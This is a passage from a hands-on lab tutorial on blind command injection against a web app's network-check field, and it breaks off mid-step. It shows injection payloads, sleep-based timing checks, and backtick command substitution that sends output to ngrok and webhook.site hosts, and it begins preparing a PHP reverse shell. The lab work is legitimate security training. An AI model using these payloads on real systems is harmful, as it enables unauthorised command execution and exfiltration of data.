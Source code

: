 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```
https://webhook.site/22162abb-7ad5-4f92-8410-c57c37baad72?`COMMAND-GOES-HERE`
```


![](https://i.imgur.com/1KTjvSG.png)

- Navigating back to [webhook.site](https://webhook.site) we have `www-data`

![](https://i.imgur.com/bkceoUk.png)

> **Note :** After each URL always add a question mark (?) and back tick (``), Don't Forget !!



### **Exploitation**

- Start up a python server

```bash
$ python3 -m http.server 80
```

- Use **Wappalyzer** to check for web technology , so we can determine our reverse shell type, In my case it is `PHP`

![](https://i.imgur.com/Ju3RG9F.png)


- Navigate to [revshells.com](https://revshells.com) , Input your IP and preferred PORT, select 